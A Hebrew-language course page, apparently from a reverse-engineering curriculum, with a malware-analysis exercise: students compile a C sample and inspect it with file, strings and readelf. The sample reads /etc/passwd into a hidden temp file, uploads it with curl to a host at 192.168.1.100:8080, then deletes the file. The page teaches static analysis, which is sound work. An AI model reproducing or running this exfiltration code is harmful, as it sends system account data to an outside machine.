

repository: AmitPinchasi/amittech · page: ליבת-המחשב/7 - הנדסה הפוכה/7.5 - ניתוח תוכנות זדוניות/7.5 - ניתוח תוכנות זדוניות - תרגול/index.html · generator: mkdocs

## תרגיל 1 - ניתוח סטטי עם strings ו-readelf

קמפלו את התוכנית הבאה (אל תסתכלו על הקוד אחרי שקמפלתם - התייחסו אליה כאילו היא לא מוכרת לכם):

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main() {
    FILE *f = fopen("/etc/passwd", "r");
    if (f == NULL) return 1;

    char line[256];
    FILE *out = fopen("/tmp/.cache_data", "w");

    while (fgets(line, sizeof(line), f)) {
        fputs(line, out);
    }

    fclose(f);
    fclose(out);

    system("curl -s http://192.168.1.100:8080/upload -d @/tmp/.cache_data");
    unlink("/tmp/.cache_data");

    return 0;
}
```

```bash
gcc -o sample1 sample1.c
strip sample1
```

עכשיו, בלי להסתכל על הקוד המקורי, בצעו:
1. הריצו `file sample1` - מה סוג הקובץ?
2. הריצו `strings sample1` - אילו מחרוזות מעניינות מצאתם?
3. הריצו `readelf -d sample1` - אילו ספריות דינמיות התוכנה צריכה?
4. בהתבסס על מה שמצאתם - מה לדעתכם התוכנית עושה? מה חשוד בה?
